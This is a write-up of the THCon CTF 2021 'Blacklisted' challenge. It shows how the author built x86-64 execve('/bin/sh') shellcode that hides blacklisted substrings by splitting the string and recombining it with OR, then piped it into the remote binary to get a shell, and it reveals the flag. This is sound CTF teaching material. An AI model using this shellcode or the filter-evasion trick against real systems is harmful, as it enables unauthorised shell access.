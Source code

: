 ```yaml
---
layout: post
title: "Blacklisted"
---
```


# [THCon CTF 2021](https://ctf.thcon.party/challenges#Blacklisted-3) - Blacklisted

## Overview

**Category:** Intro /
**Points:** 49 (dynamic) / 
**Solves:** 42

**Description:**

```
Don't say the magic word !

    nc remote1.thcon.party 10907
    nc remote2.thcon.party 10907

Files :

    blacklisted

Creator : Voydstack (Discord : voydstack#6035)
```
## Intro

I spent more time on this challenge that I would like to admit, but, eh, it was my first time using a shellcode. (Estimated Time : 3hours). More details on my failures in the following writeup.

It was a great challenge overall, I learnt a great deal about shellcodes and architectures.

## Writeup

As we are given remote addresses, the challenge here seems to exploit the remote binary to print the flag or get a remote shell.

We can execute the given binary to get a first feel of the challenge:

```
$ ./blacklisted
Please feed me (64 bytes max): AA
Erreur de segmentation
```

So this challenge consisted in dropping a remote shellcode that gets executed, as the input the program asks for. BUT  if we try using some basic shellcodes, the program tells you that you used a blacklisted string and do not execute.

```
$ ./blacklisted < shellcode.bin
Please feed me (64 bytes max): 
[-] You used a forbidden string: '/bin/'.
```

After a quick RE, we find a function rightfully called `check_blacklist` that searches in your input the presence of the following strings:
- "/bin/"
- "/tmp/"
- "flag.txt"
- "sh"

So after scratching my head on how to approach this challenge without relying on obfuscated shellcodes in order to practice a bit, I decided to modify a normal shellcode that would execute `execve("/bin/sh")` not to contain any reference to any blacklisted substring.

The solution I came up with was to split the string `"/bin/sh"` in half-bytes (half to avoid having any null-bytes in my string) and then reassembling them using an OR operation.

	 20 60 60 60 20 70 60
	+0f 02 09 0e 0f 03 08
	---------------------
	"/  b  i  n  /  s  h"

Thanks to this method, I would be able to get arround the blacklist, because neither part contained any prohibited word.

<u>*First mistake*</u> : I thought x32 would be compatible with x64. I spent A LOT of time using a x32 payload before realising it wouldn't work and that I should use a x86-64 one. But now I know that if an x64 OS is capable of running x32 programms, the shellcode HAS to correspond to the architecture of the program. Dumb lesson learnt.

I then used the following x86-64 shellcode : http://shell-storm.org/shellcode/files/shellcode-77.php, but I decided to trim the first and last syscall (corresponding to setuid) as I deemed them unecessary for this challenge and to be sure they wouldn't cause any issue. I ended up with the most basic of shellcodes:

```
xorq   %rdx, %rdx 
movq   $0x68732f6e69622fff,%rbx 
shr    $0x8, %rbx 
push   %rbx 
movq   %rsp,%rdi 
xorq   %rax,%rax 
pushq  %rax 
pushq  %rdi 
movq   %rsp,%rsi 
mov    $0x3b,%al 
syscall 
```

I modified first movq instruction to do my bidding, by adding a second movq to the rax register as rax is later nullified (by xor-ing it against itself) so it wouldn't interfere, which gave me the following x86-64 assembly code:

```
...
movq %0x60702060606020f0, %rbx
movq %0x08030f0e09020f0f, %rax
orq  %rax, %rbx
...
```
So I ended up with a 0x36 bytes shellcode, which is within the 0x40 bytes limit of the accepted input. I decided to run the new shellcode against my program
```
$ blacklisted < shellcode.bin
Please feed me (64 bytes max): 
$ echo $?
0
```

It bypassed the blacklist and returned with a 0 exit code, meaning that `execve` actually worked, and then returned as ther was no further input.

Great, now I know the payload must have worked I just need to make it not close because of end of input. I remember the trick was to use `cat`.

<u>*Second mistake*</u> : I trusted my gut feelings without properly thinking and ran the following command:

	(./blacklisted; cat -) < shellcode.bin

Let me tell you : it doesn't work as intended, but my stupid brain thought it was the right expression.

And as the command didn't grant me any shell, I fell into a rabbit hole and thought I just interact with the shell after obtaining it and should explore other ideas.

One such idea was to do a `/bin/cat` on the `flag.txt` file, but it got complicated quite fast and I came back to my first command, only for me to realise the issue. 

The corrected command was:
	
	(cat shellcode.bin; cat -) | ./blacklisted

And that worked perfectly with my modified shellcode. I then ran it against the remote version and popped a shell. I could then cat the flag and get my delicious points.

<details><summary>Challenge flag</summary>THCon21{w3ll_s0_y0u_sp34K_P4r53l70ngu3??}</details>
